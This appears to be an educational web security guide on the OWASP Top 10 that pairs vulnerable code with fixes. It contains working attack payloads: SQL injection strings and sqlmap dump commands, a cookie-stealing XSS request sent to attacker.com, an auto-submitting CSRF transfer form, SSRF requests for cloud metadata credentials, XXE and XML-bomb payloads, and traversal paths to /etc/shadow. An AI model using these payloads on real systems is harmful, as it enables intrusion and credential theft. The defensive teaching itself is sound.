

# Web Security: OWASP Top 10 and Attack Techniques

## OWASP Top 10 (2021)

The OWASP Top 10 represents the most critical web application security risks based on data from hundreds of organizations and thousands of applications. The 2021 edition reflects the current threat landscape.

| Rank | Category |
|------|----------|
| A01 | Broken Access Control |
| A02 | Cryptographic Failures |
| A03 | Injection |
| A04 | Insecure Design |
| A05 | Security Misconfiguration |
| A06 | Vulnerable and Outdated Components |
| A07 | Identification and Authentication Failures |
| A08 | Software and Data Integrity Failures |
| A09 | Security Logging and Monitoring Failures |
| A10 | Server-Side Request Forgery (SSRF) |

---

## A01: Broken Access Control

Access control failures occur when users can act outside their intended permissions. This is the most prevalent risk in the 2021 edition, found in 94% of applications tested.

**Examples:**
- Horizontal privilege escalation: User A accesses User B's records by modifying an ID parameter
- Vertical privilege escalation: Non-admin user accesses admin functionality
- CORS misconfiguration: `Access-Control-Allow-Origin: *` on APIs that return sensitive data
- Force browsing: Accessing authenticated pages directly without going through the intended flow

**Insecure Direct Object Reference (IDOR):**
```
GET /api/documents/1234
```
If the application does not verify that the authenticated user has permission to access document 1234, any authenticated user can access any document by modifying the ID.

**Mitigations:**
- Deny access by default; grant only what is explicitly required
- Implement access control at the server, not the client
- Use indirect object references (random tokens) instead of predictable IDs
- Log access control failures; alert on repeated failures from the same source
- Rate-limit API access to reduce automated scanning impact

---

## A03: Injection

Injection vulnerabilities occur when untrusted data is sent to an interpreter as part of a command or query. The interpreter executes the data as commands, allowing the attacker to control program behavior.

### SQL Injection

SQL injection remains one of the highest-impact web vulnerabilities. A successful attack may allow authentication bypass, data extraction, data modification, and in some configurations, operating system command execution.

**Vulnerable code:**
```python
# Dangerous: string concatenation with user input
username = request.args.get('username')
query = "SELECT * FROM users WHERE username = '" + username + "'"
cursor.execute(query)
```

**Attack payload (authentication bypass):**
```
username = admin' OR '1'='1
```

Resulting query:
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
```

**Attack payload (UNION-based extraction):**
```
username = ' UNION SELECT username, password, NULL FROM users--
```

**Secure code:**
```python
# Safe: parameterized query (prepared statement)
username = request.args.get('username')
query = "SELECT * FROM users WHERE username = %s"
cursor.execute(query, (username,))
```

**Injection types:**

| Type | Detection Method | Description |
|------|-----------------|-------------|
| In-band SQLi | Error-based | Database errors reveal information |
| In-band SQLi | UNION-based | Additional query returns data in response |
| Blind SQLi | Boolean-based | True/false conditions alter application behavior |
| Blind SQLi | Time-based | `SLEEP()` or `WAITFOR DELAY` introduces delay on true condition |
| Out-of-band SQLi | DNS/HTTP | Data exfiltrated via DNS lookup or HTTP request |

**Testing for SQLi:**
```bash
# sqlmap - automated SQL injection detection and exploitation
sqlmap -u "https://example.com/page?id=1" --dbs
sqlmap -u "https://example.com/page?id=1" -D database_name --tables
sqlmap -u "https://example.com/page?id=1" -D database_name -T users --dump
```

**Mitigations:**
1. Use parameterized queries / prepared statements for all database queries
2. Use an ORM that abstracts query construction (with awareness that raw query methods in ORMs can still be vulnerable)
3. Apply input validation and allowlisting where possible
4. Apply least privilege to the database account (no DROP, no access to other databases)
5. WAF as a compensating control, not a primary defense

---

## Cross-Site Scripting (XSS)

XSS vulnerabilities allow attackers to inject malicious scripts into web pages viewed by other users. The injected script executes in the victim's browser with the security context of the target application.

### XSS Types

**Reflected XSS:**
Malicious script is included in a request and reflected in the immediate response. Requires tricking the user into submitting a crafted request (phishing link).

```
GET /search?q=<script>document.location='https://attacker.com/c?c='+document.cookie</script>
```

**Stored XSS (Persistent XSS):**
Malicious script is stored in the application's database and rendered to all users who view the affected content. Higher impact than reflected XSS — no user interaction required beyond normal use.

**DOM-based XSS:**
The vulnerability exists in client-side JavaScript. The DOM is modified using attacker-controlled data without server involvement.

```javascript
// Vulnerable: sinks that execute code
document.getElementById('output').innerHTML = location.hash.substring(1);
eval(location.search.substring(1));
document.write(decodeURIComponent(location.search.substring(1)));
```

### XSS Impact

A successful XSS attack can:
- Steal session cookies (if HttpOnly is not set)
- Capture keystrokes
- Perform actions on behalf of the victim (CSRF-like)
- Redirect the victim to a phishing site
- Deliver drive-by malware
- Deface the application
- Exfiltrate data visible in the user's session

### XSS Mitigations

1. **Output encoding**: Encode all user-supplied data when inserting it into HTML, JavaScript, CSS, or URL contexts
   - HTML context: `&`, `<`, `>`, `"`, `'` → `&amp;`, `&lt;`, `&gt;`, `&quot;`, `&#x27;`
   - JavaScript context: use `JSON.stringify()` or a dedicated encoder
2. **Content Security Policy (CSP)**: Browser-enforced policy restricting script sources
3. **HttpOnly cookie flag**: Prevents JavaScript access to cookies
4. **Secure frameworks**: Use templating engines that automatically encode output (React, Angular, Jinja2 with autoescaping)
5. **Avoid dangerous sinks**: Never assign user-controlled data to `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout()`, `setInterval()` with string arguments

---

## Cross-Site Request Forgery (CSRF)

CSRF attacks trick authenticated users into unknowingly submitting requests to a web application where they are authenticated. The attack exploits the browser's automatic inclusion of cookies in cross-origin requests.

**Attack flow:**



**Example CSRF payload (HTML):**
```html
<form action="https://bank.com/transfer" method="POST" id="csrf">
    <input type="hidden" name="to" value="attacker_account">
    <input type="hidden" name="amount" value="10000">
</form>
<script>document.getElementById('csrf').submit();</script>
```

**Mitigations:**
1. **Synchronizer Token Pattern**: Generate a secret, unpredictable token per session (CSRF token). Include it in all state-changing forms and verify server-side.
2. **Double-Submit Cookie**: Set a CSRF token in both a cookie and a request parameter; verify they match.
3. **SameSite Cookie Attribute**: 
   - `SameSite=Strict`: Cookie only sent for same-origin requests
   - `SameSite=Lax`: Cookie sent for top-level navigation but not cross-site AJAX/form POSTs (default in modern browsers)
   - `SameSite=None`: Cookie sent for all requests (requires `Secure` flag)
4. **Verify Origin Header**: Check `Origin` and `Referer` headers on state-changing requests
5. **Require re-authentication for critical actions**

---

## Server-Side Request Forgery (SSRF)

SSRF vulnerabilities allow attackers to cause the server to make HTTP requests to an attacker-specified URL. In cloud environments, SSRF is particularly dangerous due to access to cloud metadata services.

**Vulnerable endpoint:**
```python
import requests
from flask import request, jsonify

@app.route('/fetch')
def fetch():
    url = request.args.get('url')
    # Vulnerable: no validation of the URL
    response = requests.get(url)
    return jsonify({'content': response.text})
```

**Attacks:**
```
# Cloud metadata service (AWS IMDSv1)
/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Internal services
/fetch?url=http://internal-api.corp/admin/users

# Local file reading (if handler supports file://)
/fetch?url=file:///etc/passwd
```

**AWS IMDSv2 vs IMDSv1:**
IMDSv1 is accessible via simple GET requests. IMDSv2 requires a PUT request to obtain a token first, then uses the token for metadata requests — SSRF using GET requests cannot bypass this protection.

**Mitigations:**
1. Validate URLs against an allowlist of permitted hosts and protocols
2. Reject private IP ranges: 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, 127.0.0.0/8, 169.254.0.0/16
3. Disable file:// and other non-HTTP protocols
4. Enforce IMDSv2 on AWS EC2 instances
5. Segment internal services so they are not accessible from application servers unless required

---

## XML External Entity Injection (XXE)

XXE vulnerabilities occur when XML input containing a reference to an external entity is processed by a poorly configured XML parser.

**Vulnerable payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

**Impact:**
- Local file disclosure
- Server-side request forgery (via external entity pointing to an internal URL)
- Port scanning of internal services
- Denial of service (Billion Laughs / XML bomb)

**Billion Laughs (XML bomb):**
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<lolz>&lol3;</lolz>
```

**Mitigations:**
1. Disable DTD (Document Type Definition) processing in the XML parser
2. Disable external entity resolution
3. Use JSON instead of XML where possible
4. Apply input validation before XML parsing

```java
// Java: disable DTDs and external entities
XMLInputFactory factory = XMLInputFactory.newInstance();
factory.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, Boolean.FALSE);
factory.setProperty(XMLInputFactory.SUPPORT_DTD, Boolean.FALSE);
```

---

## Security Headers

HTTP security headers instruct browsers to apply security policies. They are a low-effort, high-value defense layer.

| Header | Recommended Value | Purpose |
|--------|------------------|---------|
| Strict-Transport-Security | `max-age=31536000; includeSubDomains; preload` | Force HTTPS for the specified duration |
| Content-Security-Policy | `default-src 'self'; script-src 'self'` | Restrict resource loading sources |
| X-Frame-Options | `DENY` or `SAMEORIGIN` | Prevent clickjacking via iframes |
| X-Content-Type-Options | `nosniff` | Prevent MIME type sniffing |
| Referrer-Policy | `strict-origin-when-cross-origin` | Control referrer header leakage |
| Permissions-Policy | `geolocation=(), camera=(), microphone=()` | Restrict browser feature access |
| Cache-Control | `no-store` (for sensitive pages) | Prevent caching of sensitive content |

**Content Security Policy (CSP)** is the most powerful and complex security header. It specifies which sources of content are allowed to load.

```
Content-Security-Policy: 
    default-src 'self';
    script-src 'self' https://cdn.trusted.com;
    img-src 'self' data: https:;
    connect-src 'self' https://api.example.com;
    font-src 'self' https://fonts.gstatic.com;
    frame-ancestors 'none';
    upgrade-insecure-requests;
    block-all-mixed-content;
```

**CSP bypass techniques to be aware of:**
- JSONP endpoints on whitelisted domains can be abused to execute arbitrary JavaScript
- Open redirectors on whitelisted domains
- Angular/React apps with unsafe template injection can bypass CSP
- `unsafe-inline` and `unsafe-eval` negate most XSS protections

---

## Path Traversal

Path traversal (directory traversal) allows attackers to read files outside the intended directory by manipulating file path inputs.

**Vulnerable code:**
```python
@app.route('/file')
def get_file():
    filename = request.args.get('name')
    with open('/var/www/files/' + filename) as f:
        return f.read()
```

**Attack:**
```
/file?name=../../../../etc/passwd
/file?name=..%2F..%2F..%2Fetc%2Fshadow  # URL-encoded
/file?name=....//....//etc/passwd         # Double encoding bypass
```

**Mitigations:**
1. Use path canonicalization and verify the resolved path is within the intended directory
2. Use a whitelist of allowed filenames or store only identifiers (not filenames) as user input
3. Avoid passing user-controlled data to filesystem operations

```python
import os

BASE_DIR = '/var/www/files'

@app.route('/file')
def get_file():
    filename = request.args.get('name')
    # Canonicalize and verify path
    safe_path = os.path.realpath(os.path.join(BASE_DIR, filename))
    if not safe_path.startswith(BASE_DIR):
        abort(403)
    with open(safe_path) as f:
        return f.read()
```
